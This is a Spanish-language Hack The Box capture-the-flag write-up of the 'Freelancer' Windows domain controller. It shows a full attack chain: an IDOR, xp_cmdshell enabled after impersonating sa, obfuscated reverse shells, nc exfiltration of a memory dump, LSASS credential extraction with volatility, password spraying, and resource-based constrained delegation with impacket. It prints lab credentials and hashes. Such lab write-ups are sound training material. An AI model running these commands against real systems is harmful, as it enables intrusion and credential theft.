

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Freelancer Writeup | Hard"
date = "2024-10-14"
description = ""
tags = [
    "HackTheBox",
    "Freelancer",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Windows",
    "Abusing Logic Error",
    "Abusing Business Logic Error",
    "IDOR",
    "Impersonating sa MSSQL",
    "Abusing xp_cmdshell",
    "Bypassing AV via Ofuscating",
    "User Pivoting",
    "Information Leakage",
    "Analyzing Memory Dump",
    "Dumping LSASS credentials",
    "Volatility",
    "Resource-Based Constrained Delegation",
    "DCSync",
    "Pass The Hash"
]
+++

# Hack The Box: Freelancer Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Freelancer"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.230.3 --ulimit 5000 -g
10.129.230.3 -> [53,80,88,135,139,389,445,464,593,3269,3268,5985,9389,49667,49680,49682,49681,49710]
```

```shell
$ nmap -p53,80,88,135,139,389,445,464,593,3269,3268,5985,9389,49667,49680,49682,49681,49710 -sCV 10.129.230.3 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 09:14 CEST
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.84% done; ETC: 09:15 (0:00:00 remaining)
Nmap scan report for 10.129.230.3
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          nginx 1.25.5
|_http-title: Did not follow redirect to http://freelancer.htb/
|_http-server-header: nginx/1.25.5
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-05 10:15:08Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 3h00m21s
| smb2-time: 
|   date: 2024-08-05T10:16:01
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.99 seconds
```

En el puerto 80 se realiza una redirección a `freelancer.htb` , así que vamos a añadir este dominio al `/etc/hosts`

# Initial Enumeration
No puedo enumerar mediante el uso de una null session nada, ni SMB, RPC, LDAP...

# HTTP Enumeration

```shell
$ gobuster dir -u http://freelancer.htb -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Vemos una ruta `/admin` que nos va a servir mas adelante.

Vemos un montón de características para enumerar.


Para la mayoría de estas características me pide que me registre.
Voy a crear una cuenta de usuario.
Podemos hacernos una cuenta como `Freelancer` o como `Employeer`

Vamos a crearnos una cuenta como `Freelancer`


Después de investigar un poco decidí crear una cuenta como `employeer`


## Bypassing Revision
Vemos este mensaje de aviso. Parece que nuestra cuenta no podrá ser activada automáticamente y tiene que pasar una revisión previa.


Si creamos la cuenta e intentamos logearnos...


Si le damos a `Forgot your password?` vemos el siguiente mensaje, que nos afirma que si introducimos correctamente las preguntas de seguridad que hemos utilizado al registrarnos, nuestra cuenta será reactivada y podremos cambiar la contraseña..


Reestablecemos la cuenta..


Y "chiquita" cagada, parece que ha habido un error de lógica por detrás y hemos podido activar nuestra cuenta sin pasar la revisión.
A esto se le llama `Logic Error` en OWASP.


Me fijé que se utilizaba `Django` por detrás, lo primero que pensé ahora que podía crear publicaciones es en intentar un SSTI.


Pero esto no surgió efecto.


Jugando con ambas cuentas, al intentar ver los detalles de la cuenta que ha aplicado a mi publicación...

Esto parece que no está bien gestionado.. También se podría publicar en el informe final, pero bueno. Vamos a la "chicha".


Detectamos que el ID del admin es `2` , esto nos servirá mas adelante.


# Abusing Insecure Direct Object Reference
Podemos ver un apartado de código QR para poder habilitar One-Time Password.


Si decodificamos este QR vemos una dirección URL.
`http://freelancer.htb/accounts/login/otp/MTAwMTE=/14b70f28e1e6c258ef1ba6ec434fce7a/`


Me llama la atención la parte de la derecha de `/otp/` , parece una cadena codificada en base64.
```shell
$ echo "MTAwMTE=" | base64 -d
10011
```

Es mi ID de usuario!

¿Que pasa si ponemos el ID de admin (2)?
```shell
$ echo "2" | base64
Mgo=
```

Ahora ingresamos en `http://freelancer.htb/accounts/login/otp/Mgo=/14b70f28e1e6c258ef1ba6ec434fce7a/`

Y hemos abusado de un IDOR que se acontecía en la función de habilitar OTP en las cuentas de usuario.


# Foothold
Tenía las mismas funciones que con una cuenta de usuario normal, así que me acordé que había una ruta `/admin`.

Lo que mas me llama la atención es `SQL Terminal` ya que podríamos intentar ejecutar comandos de forma remota, o recuperar el hash NTLMv2 e intentar crackearlo offline (Suponiendo que la base de datos por detrás sea MSSQL, que siendo una máquina Windows, es lo mas probable).


Vamos a ponernos en escucha con `responder` para interceptar el hash NTLMv2.

Ahora con `xp_dirtree` vamos a solicitar un recurso a nuestra IP de atacante.


```shell
 sudo responder -I tun0
...
 [+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.230.3
[SMB] NTLMv2-SSP Username : FREELANCER\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::FREELANCER:8bba74ed47f951fa:3D15B9DC9F9CE4F1B7FD33B35E9BBA87:01010000000000008011F4671CE7DA012A9F8B83BA3AE1BE000000000200080053004E005100430001001E00570049004E002D004F0038004A00570035004A004400520035004500380004003400570049004E002D004F0038004A00570035004A00440052003500450038002E0053004E00510043002E004C004F00430041004C000300140053004E00510043002E004C004F00430041004C000500140053004E00510043002E004C004F00430041004C00070008008011F4671CE7DA0106000400020000000800300030000000000000000000000000300000E5FB259A4FE63836BB326D340E644EBA71FA4A5FB33D7FFF8023C362D45BAD890A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310038000000000000000000
```

Parece que esta credencial no viene contemplada en el `rockyou.txt` 
```shell
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 DONE (2024-08-05 09:49) 0g/s 1983Kp/s 1983Kc/s 1983KC/s !)(OPPQR..*7¡Vamos!
Session completed.
```

Vemos que el usuario que está realizando las consultas por detrás no es `sa` (System Admin).
Voy a buscar alguna manera para poder migrar a este usuario. Si lo conseguimos, quizás con `xp_cmdshell` conseguir RCE.


## Impersonating `sa`
Primero tenemos que listar que usuarios podemos impersonar. En [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) tiene un apartado `Impersonation of other users` donde se explica todo esto.

SQL Server tiene un permiso especial llamado **IMPERSONATE** que permite ejecutar como otro usuarios consultas o funciones especiales hasta que el contexto se reestablezca o la sesión acabe.


Vemos que podemos impersonar al usuario `sa`


## Gaining RCE through `xp_cmdshell`
¡Perfecto! Lo único malo es que el contexto de impersonación solo dura hasta que se reestablezca el contexto que es cada vez que termina una consulta, pero esto no es problema.

Y `xp_cmdshell` está deshabilitado, pero como somos `sa` podemos utilizar `sp_configure` para habilitarlo y conseguir ejecutar comandos.


Ejecutando esta consulta podemos activarlo.
```SQL
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

¡Y conseguimos RCE! Vemos el usuario del cual hemos conseguido antes el hash NTLMv2.


Para enviarnos la revshell voy a utilizar `Invoke-PowerShellTcp.ps1` de `nishang`

Simplemente añadimos esa línea al final del script.


Y servimos ese archivo por el puerto 8081.
`$ python3 -m http.server 8081`

Nos ponemos en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y vemos que existe un AV detrás que nos bloquea la ejecución de nuestra reverse shell..


Con [Vulkan](https://github.com/D3Ext/Vulkan) podemos generar un one-liner ofuscado para poder mandarnos una reverse shell.


```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora solo queda ejecutar este script...


¡Bingo!
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.230.3] 61187
whoami
freelancer\sql_svc
PS C:\WINDOWS\system32>
```

# User Pivoting 1
Enumerando el directorio personal de trabajo del usuario `sql_svc` encontramos un directorio `SQLEXPR-2019_x64_ENU`
Es el instalador para la base de datos MSSQL, en el archivo de configuración inicial `sql-Configuration.INI` vienen unas credenciales hardcodeadas.

```
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
```

con `net users` podemos recolectar los usuarios y con `netexec` probar si esta credencial es válida para algún usuario, aunque ya me hago una idea...


```shell
$ nxc smb 10.129.230.3 -u users.txt -p 'IL0v3ErenY3ager' --continue-on-success
SMB         10.129.230.3    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.3    445    DC               [-] freelancer.htb\administrator:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\alex.hill:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\carol.poland:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\d.jones:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\dthomas:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\ereed:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\Ethan.l:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\evelyn.adams:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\Guest:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\hking:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\jen.brown:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\jgreen:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\jmartinez:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\krbtgt:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\leon.sk:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\maya.artmes:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\michael.williams:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
SMB         10.129.230.3    445    DC               [-] freelancer.htb\olivia.garcia:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\samuel.turner:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sdavis:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sophia.h:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sql_svc:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\SQLBackupOperator:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sshd:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\taylor:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\wwalker:IL0v3ErenY3ager STATUS_LOGON_FAILURE
```

Y como me imaginaba.
`mikasaAckerman:IL0v3ErenY3ager`

Este usuario no está en el grupo `Remote Management Users`, voy a tener que utilizar `RunasCs.exe` para poder pivotar.
```shell
$ nxc winrm 10.129.230.3 -u mikasaAckerman -p 'IL0v3ErenY3ager'
WINRM       10.129.230.3    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
WINRM       10.129.230.3    5985   DC               [-] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```

Nos compartimos el ejecutable...
```powershell
PS C:\Users\sql_svc\Desktop> iwr http://10.10.14.18:8081/RunasCs.exe -o RunasCs.exe
```

Nos ponemos en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y nos mandamos la revshell.
```powershell
PS C:\Users\sql_svc\Desktop> .\RunasCs.exe mikasaackerman IL0v3ErenY3ager cmd.exe -r 10.10.14.18:443

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-515e8$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 4424 created in background.
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.230.3] 61595
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
freelancer\mikasaackerman
```

En el escritorio de este usuario podemos ver la flag y unos archivos interesantes...

```powershell
C:\Users\mikasaAckerman\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8954-28AE

 Directory of C:\Users\mikasaAckerman\Desktop

05/28/2024  10:22 AM    <DIR>          .
05/28/2024  10:22 AM    <DIR>          ..
10/28/2023  06:23 PM             1,468 mail.txt
10/04/2023  01:47 PM       292,692,678 MEMORY.7z
08/05/2024  06:11 AM                34 user.txt
               3 File(s)    292,694,180 bytes
               2 Dir(s)   2,597,232,640 bytes free

C:\Users\mikasaAckerman\Desktop>type user.txt
type user.txt
9cd7c949484af8....
```

# User Pivoting 2
El archivo `mail.txt` tiene el siguiente contenido.
```
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards
```

Leyendo el email nos damos cuenta de que tenemos un dumpeo de memoria del servidor. Esto puede ser muy útil para poder extraer credenciales, vamos a ver como.

Primero quiero tener este comprimido en mi máquina, me comparto `netcat` y con ello me comparto el comprimido.
```cmd
C:\Users\mikasaAckerman\Desktop>cmd.exe /c "nc.exe 10.10.14.18 443 < MEMORY.7z"
```

```shell
$ sudo nc -lvnp 443 > MEMORY.7z
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.230.3] 63844
```

Como el archivo pesa bastante, dejemos un rato el archivo compartiéndose.

Para saber cuando terminó, podemos con `Get-FileHash` calcular el hash MD5 original del archivo.
```cmd
C:\Users\mikasaAckerman\Desktop>powershell Get-FileHash .\MEMORY.7z -Algorithm MD5
powershell Get-FileHash .\MEMORY.7z -Algorithm MD5

Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             931386993AB32B37692FDE69E8FF389F                                       C:\Users\mikasaAckerman\Deskt...
```

Y en nuestra máquina, **MIENTRAS** se está compartiendo, ir calculando de vez el cuando el hash MD5, cuando coincida significa que la transmisión del archivo habrá terminado.
```shell
$ md5sum MEMORY.7z 
47f51df9d1a469be9ac0db604ac5df56  MEMORY.7z
```


Una vez tengamos el comprimido, podemos listar su contenido.
Contiene un archivo `MEMORY.DMP`.

Con mimikatz podemos utilizar el módulo `sekurlsa::minidump` para pasarle un archivo .dmp donde se encuentre una instancia de `lsass.exe`

Esto no se puede hacer con un dumpeo de la memoria completa. Por lo cual, con `volatility3` voy a extraer el proceso de `lsass.exe` para luego con `mimikatz` extraer los hashes de la `SAM`

```shell
sudo vol -f MEMORY.DMP windows.info
```

Ahora enumeramos los procesos
```shell
$ sudo vol -f MEMORY.DMP windows.pslist.PsList
```

Y encontramos el `lsass.exe`
```
584	456	lsass.exe	0xbc83a93e7080	9	-	0	False	2023-10-04 17:30:06.000000 	N/A	Disabled
```

Ahora con el módulo de `memmap` podemos dumpear un proceso seleccionando su PID, en este caso, 584.

```shell
$ sudo vol -f MEMORY.DMP windows.memmap.Memmap --pid 584 --dump
```

**PARA POINTED, SEGURO QUE HAY ALGUNA MANERA MEJOR Y MAS RÁPIDO PARA HACERLO

Efectivamente, me di cuenta de lo que estaba haciendo y de porqué.

Esto se solía hacer con `volatility2` pero `volatility3` tiene módulos para interactuar con LSASS y dumpear credenciales.
Módulos como `windows.lsadump` o `windows.hashdump`.
Gracias por este "issue" abierto en Github.
https://github.com/volatilityfoundation/volatility3/issues/1102

```shell
$ sudo vol -f MEMORY.DMP windows.hashdump
Volatility 3 Framework 1.0.1
Progress:  100.00		PDB scanning finished                                
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	725180474a181356e53f4fe3dffac527
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount	504	aad3b435b51404eeaad3b435b51404ee	04fc56dd3ee3165e966ed04ea791d7a7
```

Intenté hacer Pass The Hash a la cuenta de `Administrator` pero no era válido.
```shell
$ nxc smb 10.129.230.3 -u 'Administrator' --aesKey 'aad3b435b51404eeaad3b435b51404ee'
SMB         10.129.230.3    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.3    445    DC               [-] freelancer.htb\Administrator:aad3b435b51404eeaad3b435b51404ee KDC_ERR_PREAUTH_FAILED
```

Utilizando el módulo `windows.lsadump`
```shell
sudo vol -f MEMORY.DMP windows.lsadump
```

¡Vemos una credencial!


Como no sabía para que usuario podría ser esta credencial, con `netexec` hice Password Spraying a todos los usuarios.

```shell
$ nxc smb 10.129.230.3 -u users.txt -p 'PWN3D#l0rr@Armessa199' --continue-on-success
SMB         10.129.230.3    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.3    445    DC               [-] freelancer.htb\administrator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\alex.hill:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\carol.poland:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\d.jones:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\dthomas:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\ereed:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\Ethan.l:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\evelyn.adams:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\Guest:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\hking:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\jen.brown:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\jgreen:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\jmartinez:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\krbtgt:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\leon.sk:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\lkazanof:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199
SMB         10.129.230.3    445    DC               [-] freelancer.htb\maya.artmes:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\michael.williams:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\mikasaAckerman:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\olivia.garcia:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\samuel.turner:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sdavis:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sophia.h:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sql_svc:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\SQLBackupOperator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\sshd:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\taylor:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.129.230.3    445    DC               [-] freelancer.htb\wwalker:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
```

`freelancer.htb\lorra199:PWN3D#l0rr@Armessa199`

Y vemos que este usuario está en el grupo de `Remote Management Users`

```shell
$ nxc winrm 10.129.230.3 -u 'lorra199' -p 'PWN3D#l0rr@Armessa199'
WINRM       10.129.230.3    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
WINRM       10.129.230.3    5985   DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 (Pwn3d!)
```

Así que con `evil-winrm` podemos conectarnos a la máquina víctima.

```powershell
 evil-winrm -i 10.129.230.3 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lorra199\Documents> whoami
freelancer\lorra199
```

# Privilege Escalation

Quería utilizar `SharpHound.exe` para recolectar información pero...


Así que voy a utilizar `bloodhound-python` desde mi máquina de atacante para ahorrarme problemas.

```shell
$ bloodhound-python -c All -dc dc.freelancer.htb -d freelancer.htb -ns 10.129.230.3 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
```

Vemos que este usuario pertenece al grupo `AD Recycle Bin`


Y este grupo tiene permisos de `GenericWrite` sobre el DC. Esto significa que podemos escribir a cualquier atributo de los objetos del DC, incluido los miembros y los SPN por lo cual se acontece un ataque de tipo `Resource-Based Constrained Delegation`


Primero, debemos crear un equipo en el dominio.
```shell
$ impacket-addcomputer -method SAMR -computer-name 'POINTEDSEC$' -computer-pass 'Pointed123@' -dc-host dc.freelancer.htb -domain-netbios FREELANCER 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account POINTEDSEC$ with password Pointed123@.
```

Ahora con `netexec` podemos comprobar que se ha creado correctamente.
```shell
$ nxc smb freelancer.htb -u 'POINTEDSEC$' -p 'Pointed123@'
SMB         10.129.230.3    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.3    445    DC               [+] freelancer.htb\POINTEDSEC$:Pointed123@
```

Ahora tenemos que configurar al equipo recién creado para que pueda delegar sobre el DC e impersonar los usuarios en el DC.

```shell
$ impacket-rbcd -delegate-from 'POINTEDSEC$' -delegate-to 'DC$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199' -dc-ip 10.129.230.3
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] POINTEDSEC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     POINTEDSEC$   (S-1-5-21-3542429192-2036945976-3483670807-12101)
```

Ahora solo falta solicitar el TGT de `Administrator` 
```shell
$ getST.py -spn 'cifs/dc.freelancer.htb' -impersonate 'Administrator' 'freelancer.htb/POINTEDSEC$:Pointed123@'
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Sabemos que Kerberos utiliza un `timestamp` para la pre-autenticación, así que vamos a sincronizar la hora de mi equipo con la máquina víctima con `ntpdate`

```shell
 sudo ntpdate freelancer.htb
2024-08-05 14:44:26.327717 (+0200) +10822.139094 +/- 0.019971 freelancer.htb 10.129.230.3 s1 no-leap
CLOCK: time stepped by 10822.139094
```

Ahora tenemos el ticket de Administrator..
```shell
$ getST.py -spn 'cifs/dc.freelancer.htb' -impersonate 'Administrator' 'freelancer.htb/POINTEDSEC$:Pointed123@'
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

